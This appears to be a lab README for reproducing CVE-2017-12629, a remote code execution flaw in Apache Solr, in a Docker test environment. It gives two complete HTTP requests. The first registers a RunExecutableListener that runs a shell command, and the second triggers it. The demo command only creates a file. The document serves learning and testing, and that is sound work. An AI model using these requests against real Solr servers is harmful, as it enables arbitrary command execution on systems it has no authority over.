



# Apache Solr Remote Code Execution (CVE-2017-12629)

See the following references for vulnerability details:

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr is an open-source search server implemented in Java on HTTP and Apache Lucene. Before version 7.1.0, two vulnerabilities were reported: [XML External Entity (XXE)](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE) and remote code execution (RCE). They can be chained and both use CVE-2017-12629.

This example exercises the RCE vulnerability.

## Environment

Start the environment:

```
docker compose up -d
```

After the service starts, wait briefly and visit `http://your-ip:8983/` to open the Apache Solr administration page without logging in.

## Reproduction

Create a listener. Set `exe` to the command to execute and `args` to its arguments:

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```



Send an update to trigger the listener:

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```



Run `docker compose exec solr bash` to enter the container and verify that `/tmp/success` was created:


